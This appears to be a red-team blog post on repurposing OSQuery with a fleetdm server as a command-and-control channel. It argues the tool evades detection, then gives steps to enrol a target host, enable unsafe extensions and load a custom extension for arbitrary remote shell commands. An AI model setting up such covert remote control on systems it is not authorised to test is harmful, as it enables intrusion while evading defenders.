 ```yaml
---
layout: post
title: Offensive OSQuery
categories: [general]
tags: [redteam, c2, devops, infra]
description: Diving into how a traditionally defensive tool OSQuery can be used to perform red team testing at scale.
---
```


## What is OSQuery
OSQuery is an open-source endpoint visibility tool created by Meta. It allows administrators to query hosts across their organization like they would a SQL database. An example from the [osquery site](https://osquery.readthedocs.io/en/stable/introduction/using-osqueryi/):
```SQL
$ osqueryi
osquery> SELECT DISTINCT
    ...>   process.name,
    ...>   listening.port,
    ...>   process.pid
    ...> FROM processes AS process
    ...> JOIN listening_ports AS listening
    ...> ON process.pid = listening.pid
    ...> WHERE listening.address = '0.0.0.0';

+----------+-------+-------+
| name     | port  | pid   |
+----------+-------+-------+
| Spotify  | 57621 | 18666 |
| ARDAgent | 3283  | 482   |
+----------+-------+-------+
osquery>
```

OSQuery is commonly run with a centralized server that all the agents check-in to. While there isn't an official open-source OSQuery server a number of alternative servers exist like [Kollide](https://github.com/kolide) and [fleetdm](https://github.com/fleetdm/fleet) . For this blog we'll be using a cloud managed fleetdm instance given it's ease to setup.

## Why OSQuery is a good c2.
- Evasion - As a legitimate tool for systems administration and corporate security OSQuery isn't detected as malicious.
- Scale - Many c2 frameworks don't scale (some falling over irrecoverably at 50 callbacks a minute) or design their workflows for scale. As a tool designed to manage entire corporations OSQuery and it's servers are designed to operate at scale and help the user queue tasks at scale.
- Robust recon features - OSQuery supports a number of tables that you can query of of the box.
	- [crontab](https://osquery.io/schema/5.8.2/#crontab)
	- [curl](https://osquery.io/schema/5.8.2/#curl)
	- [drivers](drivers)
	- [file](https://osquery.io/schema/5.8.2/#file)
	- [logged_in_users](https://osquery.io/schema/5.8.2/#logged_in_users)
	- [user_ssh_keys](https://osquery.io/schema/5.8.2/#user_ssh_keys)

The downside to OSQuery out of the box is it doesn't support arbitrary command execution making executing new tools, or more complicated memory based tools like mimikatz challenging. To get around this limitation though we can load a custom extension into our OSQuery agent. In the next section we'll load a custom extension to execute arbitrary shell commands.

## How

1. Signup for a free trial of fleetdm
	1. https://fleetdm.com/try-fleet/register
	2. Setup an account and login.
2. Adding hosts
	1. Once logged in Click "Add hosts"
	2. Select your hosts OS
	3. Unselect include Fleet Desktop
	4. Copy the installer package onto the target host.
	5. Install the package
		1. You may have issues getting things to run I wasn't able to install it a service in my container and had to manually run it.
```
cat /etc/default/orbit
source /etc/default/orbit
/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL --enroll-secret $ORBIT_ENROLL_SECRET --debug

ctrl-c to exit.
```
3. Build the extension
	1. `git clone https://github.com/hulto/osquery-exec.git`
	2. `cd osquery-exec`
	3. `go build -o exec.ext ./`
4. Install the `osquery-exec` plugin.
	1. Stop the running instance of orbit
	2. Fill out the `/opt/orbit/osquery.flags` file
```
--extensions_timeout=3
--extensions_interval=3
--allow_unsafe
```
		3. Upload our extension to the remote host `mkdir /test && cp /tmp/exec.ext /test/exec.ext`
		4. Add our extension to those that will be loaded
			1. `echo "/test/exec.ext" > /etc/osquery/extensions.load`
1. Restart the orbit agent
	1. `/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL`
2. Execute commands 🥳

<figure class="aligncenter">
    <img src="/assets/png/osquery-cmdexec-whoami.png" />
    <figcaption>Figure 1. - OSQuery cmdexec results in fleetdm webui</figcaption>
</figure>

